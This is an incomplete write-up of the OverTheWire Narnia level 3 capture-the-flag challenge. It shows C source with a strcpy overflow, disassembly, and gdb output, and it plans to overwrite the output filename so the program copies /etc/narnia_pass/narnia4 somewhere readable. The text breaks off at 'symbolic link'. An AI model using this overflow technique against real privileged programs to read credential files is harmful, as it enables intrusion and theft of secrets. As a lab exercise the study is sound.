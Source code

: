 **Narnia Level 3** <br>
narnia3.c: 
```
int main(int argc, char **argv) {

    int  ifd,  ofd;
    char ofile[16] = "/dev/null";
    char ifile[32];
    char buf[32];

    if(argc != 2){
        printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
        exit(-1);
    }

    /* open files */
    strcpy(ifile, argv[1]);
    if((ofd = open(ofile,O_RDWR)) < 0 ){
        printf("error opening %s\n", ofile);
        exit(-1);
    }
    if((ifd = open(ifile, O_RDONLY)) < 0 ){
        printf("error opening %s\n", ifile);
        exit(-1);
    }

    /* copy from file1 to file2 */
    read(ifd, buf, sizeof(buf)-1);
    write(ofd,buf, sizeof(buf)-1);
    printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

    /* close 'em */
    close(ifd);
    close(ofd);

    exit(1);
} 
```

The program takes a file name argument and sends the contents of the file to /dev/null. 
There's appears to be a potential buffer overflow in the program in strcpy.

strcpy function:
```
   strcpy(ifile, argv[1]);
```
strcpy assembly:
```
   0x0804854d <+66>:    mov    0xc(%ebp),%eax <--
   0x08048550 <+69>:    add    $0x4,%eax
   0x08048553 <+72>:    mov    (%eax),%eax
   0x08048555 <+74>:    push   %eax
   0x08048556 <+75>:    lea    -0x38(%ebp),%eax
   0x08048559 <+78>:    push   %eax
   0x0804855a <+79>:    call   0x80483a0 <strcpy@plt>
```
Taking a look at the arguments of strcpy and its assembly, we can deduce that argv[1] exists at 0xc(%ebp) + 4 and ifile exists at -0x38(%ebp). Let's check that this is occurring post strcpy in gdb.

```
(gdb) br * 0x0804855f
Breakpoint 1 at 0x804855f
(gdb) r
Starting program: /narnia/narnia3 $(python -c 'print "\x90"*31')

Breakpoint 1, 0x0804855f in main ()
(gdb) x/8x $ebp-0x38
0xffffd680:     0x90909090      0x90909090      0x90909090      0x90909090
0xffffd690:     0x90909090      0x90909090      0x90909090      0x00909090
```

Yup! It's working as intended. The buffer is 32 bytes long. Anything over that will overwrite registers under ebp, like this: ![](pictures/narnia3.png)

So it looks like we are able to manipulate ofile which currently hosts /dev/null. (2f 64 65 76 2f 6e 75 6c 6c) We could input the contents of /etc/narnia_pass/narnia4 to the program and have it transferred to a file of our choosing!



symbolic link. 

